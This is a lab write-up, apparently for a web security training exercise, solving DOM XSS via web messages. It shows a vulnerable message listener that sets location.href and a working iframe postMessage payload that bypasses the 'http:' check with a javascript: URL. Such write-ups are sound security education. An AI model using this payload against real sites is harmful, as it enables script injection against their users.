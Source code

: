 # DOM XSS using web messages and a JavaScript URL
# Objective
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging.\
To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

# Solution
## Analysis

Website has `script` that creates `eventListener`.

|![](Images/image-4.png)|
|:--:| 
| *Added event listener - Web messages* |


Vulnerable code:
```js
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

The script above check if data passed via web messages have "http:" or "https:" strings and then sets valou of `location.href`.


## Exploitation
|![](Images/image-5.png)|
|:--:| 
| *Testing basic XSS - provided payload was executed* |
|![](Images/image-6.png)|
| *Final payload* |

Final payload:
```js
<iframe src="https://0ad600c5048b69a287d09d6f001c00cb.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

Explaination:
- `this` - refers to `iframe`.
- `contentWindow` - refers to window object of the `iframe`.
- `postMessage()` - calls web message method.
- `'*'` - specifies the `targetOrigin` - the origin the recipient window must have in order to receive the event. In order for the event to be dispatched, the origin must match exactly. `*` is a wildcard.
- `//http:` - comments out the required string.


